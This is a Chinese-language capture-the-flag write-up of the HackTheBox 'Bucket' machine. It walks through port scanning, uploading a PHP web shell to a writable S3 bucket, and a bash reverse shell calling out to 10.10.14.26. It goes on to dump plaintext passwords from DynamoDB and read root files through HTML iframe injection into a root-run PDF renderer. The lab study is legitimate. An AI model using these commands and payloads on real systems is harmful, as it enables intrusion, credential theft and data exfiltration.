

# README

## 信息收集

### nmap

```shell
sudo nmap -p-  --min-rate 10000 10.10.10.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:42 CST
Nmap scan report for 10.10.10.212
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.08 seconds

```

```shell
sudo nmap -p 22,80 -sC -sV 10.10.10.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:42 CST
Nmap scan report for 10.10.10.212
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.24 seconds

```


80端口发现了http://s3.bucket.htb/adserver/images/malware.png，访问发现是aws s3。

## aws s3

```shell
aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver --recursive
2023-10-08 18:16:04      37840 images/bug.jpg
2023-10-08 18:16:04      51485 images/cloud.png
2023-10-08 18:16:04      16486 images/malware.png
2023-10-08 18:16:04       5344 index.html
```

查看权限：

```json
{
    "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
    },
    "Grants": [
        {
            "Grantee": {
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a",
                "Type": "CanonicalUser"
            },
            "Permission": "FULL_CONTROL"
        }
    ]
}
```

发现是FULL_CONTROL，尝试往网站写马：

```shell
aws s3 --endpoint-url http://s3.bucket.htb cp shell.php s3://adserver/shell.php
upload: ./shell.php to s3://adserver/shell.php

feng at fengs-MBP in [~/github/CTF/Web/渗透/hackthebox/Bucket]  on git:main ✗  987e539c "commit"
18:18:43 › aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver --recursive
2023-10-08 18:18:05      37840 images/bug.jpg
2023-10-08 18:18:05      51485 images/cloud.png
2023-10-08 18:18:05      16486 images/malware.png
2023-10-08 18:18:05       5344 index.html
2023-10-08 18:18:43         24 shell.php
```

反弹个shell过来：

```
0=system("bash -c 'bash -i >& /dev/tcp/10.10.14.26/39502 0>&1'");
```


在roy用户下面发现project的db.php：

```php
<?php
require 'vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();

//todo
```

```shell
www-data@bucket:/home/roy/project$ export HOME=/tmp
export HOME=/tmp
www-data@bucket:/home/roy/project$ aws configure
aws configure
AWS Access Key ID [None]: feng
AWS Secret Access Key [None]: feng
Default region name [us-east-1]:
Default output format [None]: json

#查询数据库
www-data@bucket:/home/roy/project$ aws --endpoint-url http://127.0.0.1:4566 dynamodb list-tables
<oint-url http://127.0.0.1:4566 dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```

有个users库，查询库：

```shell
www-data@bucket:/home/roy/project$ aws --endpoint-url http://127.0.0.1:4566 dynamodb scan --table-name users
<p://127.0.0.1:4566 dynamodb scan --table-name users
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

尝试ssh登录，在试第三个密码的时候成功

## roy用户

/var/www下面还有个web目录，查看apache的端口映射：

```shell
cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost 127.0.0.1:8000>
	<IfModule mpm_itk_module>
		AssignUserId root root
	</IfModule>
	DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
	DocumentRoot /var/www/html
	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^bucket.htb$
	RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com
	ProxyPreserveHost on
	ProxyPass / http://localhost:4566/
	ProxyPassReverse / http://localhost:4566/
	<Proxy *>
		 Order deny,allow
		 Allow from all
	 </Proxy>
	ServerAdmin webmaster@localhost
	ServerName s3.bucket.htb
	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

开在了8000端口且以root权限运行。

在`/var/www/bucket-app/index.php`上可以发现：

```shell
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
	if($_POST["action"]==="get_alerts") {
		date_default_timezone_set('America/New_York');
		$client = new DynamoDbClient([
			'profile' => 'default',
			'region'  => 'us-east-1',
			'version' => 'latest',
			'endpoint' => 'http://localhost:4566'
		]);

		$iterator = $client->getIterator('Scan', array(
			'TableName' => 'alerts',
			'FilterExpression' => "title = :title",
			'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
		));

		foreach ($iterator as $item) {
			$name=rand(1,10000).'.html';
			file_put_contents('files/'.$name,$item["data"]);
		}
		passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
	}
}
```

创建alerts表

```shell
aws --endpoint-url http://127.0.0.1:4566 dynamodb  create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5
```

插入数据：

```shell
aws --endpoint-url http://127.0.0.1:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"this is data"}}'

```

访问：

```shell
curl http://127.0.0.1:8000/index.php --data "action=get_alerts"
cat result.pdf|base64 -w 0
```

可以发现成功得到了this is data。

查看pd4ml_demo.jar的相关信息可以发现他可以解析html，可以实现文件读取：

```shell
aws --endpoint-url http://127.0.0.1:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><head></ head><body><iframe src=\"/root/root.txt\"></iframe></body></html>"}}'

aws --endpoint-url http://127.0.0.1:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><head></ head><body><iframe src=\"/root/\"></iframe></body></html>"}}'
```

```shell
nc 10.10.14.26 39502 < result.pdf
ncat -l 39502 > result.pdf
```

打开pdf即可获取到flag：




wp里使用附件的方式没有复现成功：

```shell
'{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment
src='\''file:///root/'\'' description='\''test'\'' icon='\''Paperclip'\''/>
</html>"}}'
```

同样可以读取.ssh文件夹里的内容然后ssh登录。